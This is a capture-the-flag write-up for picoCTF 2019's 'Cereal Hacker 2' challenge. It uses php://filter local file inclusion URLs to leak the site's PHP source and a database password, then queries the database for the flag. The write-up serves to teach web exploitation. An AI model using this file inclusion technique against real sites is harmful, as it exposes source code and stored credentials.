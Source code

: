 # Cereal Hacker 2 - 500 points

## Description



## Solution

Using php filters, we can leak the source code. 
<http://2019shell1.picoctf.com:62195/?file=php://filter/convert.base64-encode/resource=admin>

```php
<?php

require_once('cookie.php');

if(isset($perm) && $perm->is_admin()){
...
```

This has a reference to `cookie.php`. 

<http://2019shell1.picoctf.com:62195/?file=php://filter/convert.base64-encode/resource=cookie>
```php
<?php

require_once('../sql_connect.php');

// I got tired of my php sessions expiring, so I just put all my useful information in a serialized cookie
...
```


This has a reference to `sql_connect.php` which looks interesting. If we can leak the credentials to the database, we can easily solve the problem.

<http://2019shell1.picoctf.com:62195/?file=php://filter/convert.base64-encode/resource=../sql_connect>
```php
$sql_server = 'localhost';
$sql_user = 'mysql';
$sql_pass = 'this1sAR@nd0mP@s5w0rD#%';
$sql_conn = new mysqli($sql_server, $sql_user, $sql_pass);
$sql_conn_login = new mysqli($sql_server, $sql_user, $sql_pass);
```
Leaks the credentials to the database. 

Notice that because the host is `2019shell1.picoctf.com`, the same as the shell server, we can connect to `localhost` from the pico shell server. 

After connecting, we can simply SELECT the flag from the database. 
